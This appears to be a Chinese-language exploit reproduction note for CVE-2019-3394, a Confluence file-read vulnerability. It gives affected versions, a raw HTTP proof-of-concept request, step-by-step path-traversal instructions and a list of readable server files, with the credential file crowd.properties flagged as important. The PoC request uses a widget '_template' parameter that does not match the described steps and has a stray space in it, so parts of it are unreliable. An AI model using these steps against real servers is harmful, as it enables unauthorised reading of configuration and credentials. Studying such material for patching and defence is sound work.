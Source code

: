 （CVE-2019-3394）Confluence 文件读取漏洞
========================================

一、漏洞简介
------------

> （CVE-2019-3394）Confluence 文件读取漏洞

二、影响范围
------------

-   6.1.0 \<= version \< 6.6.16

-   6.7.0 \<= version \< 6.13.7

-   6.14.0 \<= version \< 6.15.8

三、复现过程
------------

#### poc

    POST /rest/tinymce/1/macro/preview  HTTP/1.1
    Host: localhost:8090
    Content-Length: 175
    Accept: text/plain, */*; q=0.01 
    Origin: http://localhost:8090
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
    Content-Type: application/json; charset=UTF-8
    Referer: http://localhost:8090/ 
    Connection: close

    {"contentId":"1","macro":{"name":"widget","params": {"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_templat e":"file:///C:/Windows/win.ini"},"body":""}}

#### 触发条件

1.  一个有效的登录账号

2.  该账号具有在空间「添加页面」的权限

#### 复现步骤

1.创建一个空白页

![](./.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId27.png)

2.插入一张网络图片

image

![](./.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId28.png)

> 插入url改为你需要查看的文件，例如 /packages/../web.xml

3.点击发布，抓取报文

4.删除多余url前缀,只留下 `/packages/../web.xml` 并放开报文

![](./.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId29.png)

5.查看页面源码确认修改成功

![](./.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId30.png)

6.导出word，并抓包查看

![](./.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId31.png)

![](./.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId32.png)

#### 路径说明

由于 `catalina.jar`中的
`org.apache.catalina.webresources.StandardRoot.class`的
getResource方法的 `validate`存在过滤和限制，所以可遍历路径均在
`/WEB-INF`下

可读取的文件大致如下

    #WEB-INF下
    decorators.xml
    glue-config.xml
    server-config.wsdd
    sitemesh.xml
    urlrewrite.xml
    web.xml
    #/WEB-INF/classes下
    confluence-filtered-frames.properties
    confluence-init.properties
    crowd.properties(较为重要)
    hash-registry.properties
    lgplTemplate.soy
    log4j-diagnostic.properties
    log4j.properties
    logging.properties
    mime.types
    osuser.xml
    seraph-config.xml
    seraph-paths.xml
    velocity_implicit.vm
    velocity.properties
